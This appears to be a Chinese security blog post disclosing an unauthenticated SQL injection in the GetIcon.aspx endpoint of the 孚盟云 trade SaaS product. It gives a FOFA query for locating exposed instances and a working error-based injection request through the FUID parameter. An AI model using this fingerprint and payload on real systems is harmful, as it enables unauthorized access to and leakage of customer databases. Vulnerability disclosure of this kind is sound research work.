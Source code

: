 #  孚盟云 Getlcon.aspx 接口存在SQL 注入漏洞  
原创 zz  星络安全实验室   2025-07-13 14:49  
  
<table><tbody><tr><td data-colwidth="576"><section><span style="color: rgba(0, 0, 0, 0.9);font-family: &#34;PingFang SC&#34;, system-ui, -apple-system, BlinkMacSystemFont, &#34;Helvetica Neue&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, Arial, sans-serif;font-size: 16px;font-style: normal;font-variant-ligatures: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: 0.544px;orphans: 2;text-align: justify;text-indent: 0px;text-transform: none;widows: 2;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration-thickness: initial;text-decoration-style: initial;text-decoration-color: initial;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">免责声明:文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，未授权的攻击属于非法行为!文章中敏感信息均已做多层打码处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责作者不为此承担任何责任，一旦造成后果请自行负责</span></span></section></td></tr></tbody></table>  
  
漏洞详情：  
  
上海孚盟软件有限公司是一家专注于外贸SaaS服务及行业解决方案的公司。其核心产品孚盟云的GetIcon.aspx接口存在SQL注入漏洞。攻击者无需身份验证即可通过精心构造的恶意请求参数注入SQL语句，可能造成数据库敏感信息泄露、数据被篡改，甚至系统权限被提升，从而严重威胁系统的数据安全性和完整性。  
  
漏洞复现：  
  
fofa：  
```
app="孚盟软件-孚盟云"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZxIkWliazrVcyeMicaUgQRibicdI4CCkWlFsMp5aLIMFbXoEyTIx9FmibXYwtOSV5OqXAlcaIKLCQXaj17urficOPnuw/640?wx_fmt=png&from=appmsg "")  
  
  
poc：  
  
受用户控制参数FUID没有进行过滤可以直接拼接成sql语句执行，利用报错注入查询数据库版本  
```
GET /Common/GetIcon.aspx?FUID=-1'and+1=@@VERSION-- HTTP/1.1
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZxIkWliazrVcyeMicaUgQRibicdI4CCkWlFsWDFlGiap22Lul90ibyvzIMvq8gthicF1UoLf4qS84xsogWEN5mklKibpBA/640?wx_fmt=png&from=appmsg "")  
  
  
修复意见：  
  
关注厂商动态，升级至安全版本  
  
  
